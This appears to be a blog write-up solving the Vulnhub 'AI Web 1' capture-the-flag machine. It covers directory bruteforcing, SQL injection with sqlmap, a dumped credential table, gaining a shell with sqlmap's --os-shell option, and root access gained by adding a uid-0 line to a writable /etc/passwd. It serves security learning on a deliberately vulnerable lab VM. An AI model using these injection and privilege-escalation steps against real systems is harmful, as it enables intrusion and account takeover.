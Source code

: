 ```yaml
---
layout: post
title: AI Web 1
date: 2019-09-12
author: OutHackThem
comments: true
categories: vulnhub
tags: [ctf,vulnhub]
---
```


## AI Web 1 Vulnhub

After configuring the AI Web vm and getting its ip through  netdocover. I quicky ran a nmap scan and saw that only port 80 was open. This shows that the challenge was purely web based.

I then ran a directory bruteforcer and found robots.txt 

![robots_txt]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/aiweb1/robots.png)


So now we have 2 more directories I further tried bruteforcing them and found a phpinfo file under

[http://192.168.114.134/m3diNf0/info.php](http://192.168.114.134/m3diNf0/info.php)


That was all I could find in the `m3diNf0` directory. Now moving on to the other directory.

Navigating to [http://192.168.114.134/se3reTdir777/](http://192.168.114.134/se3reTdir777/)

You see that there is a form that displays the usenames by taking in user id


![view users]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/aiweb1/ulookup.png)

I intercepted the HTTP post request and tried looking for a sqli and turns out that it was vulnerable.

I copied the HTTP POST request from burp interceptor proxy and then quickly started sqlmap. 


![post req]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/aiweb1/postreq.png)



and following is what I found


```bash

Database: aiweb1                                                                                                              
Table: systemUser                                                                                                             
[3 entries]                                                                                                                   
+----------------------------------------------+-----------+                                                                  
| password                                     | userName  |                                                                  
+----------------------------------------------+-----------+                                                                  
| RmFrZVVzZXJQYXNzdzByZA==                     | t00r      |                                                                  
| TjB0VGhpczBuZUFsczA=                         | u3er      |                                                                  
| TXlFdmlsUGFzc19mOTA4c2RhZjlfc2FkZmFzZjBzYQ== | aiweb1pwn |                                                                  
+----------------------------------------------+-----------+                                                                  
                                                               
```

The passwords are base64 encoded.

I did not find anything further on the web page or in the directories so I thought to try to write a shell in one of the directoires of the website using sqli. 

So the quickest and easiest option was sqlmap


```bash
sqlmap -r req.txt -p uid --os-shell
```


It then asks you to choose a directory of where you will upload the shell for this we need the complete path from home of the web root. This is where it gets fun, remember that little phpinfo file we found earlier ? yup that comes in to play now 


![phpinfo path]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/aiweb1/phpinfo_path.png)


just copy paste that path and you will have your self a nice little shell 


![from sql to shell]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/aiweb1/sql_shell.png)


Now I like to work in the command line to elavate my privileges and besides a tty shell comes with many advantages.
So I got  a reverse shell and started searching around.

I first started listing files owned by the current web user and to my luck I found that /etc/passwd was owned by the current user.


```bash
ls -la /etc/passwd
-rw-r--r-- 1 www-data www-data 1655 Sep 10 20:10 /etc/passwd
```

Now we can edit /etc/passwd from our web user

following is the change I made 


aiweb1pwn:x:0:0:root:/root:/bin/bash

As you might remember the password for the user `aiweb1pwn` was found from the sql injection  decoding the base64 password and logging in with that user will give us a root shell


![from sql to shell]({{ site.giturl }}/MyCtfWriteups/assets/images/Vulnhub/aiweb1/root.png)
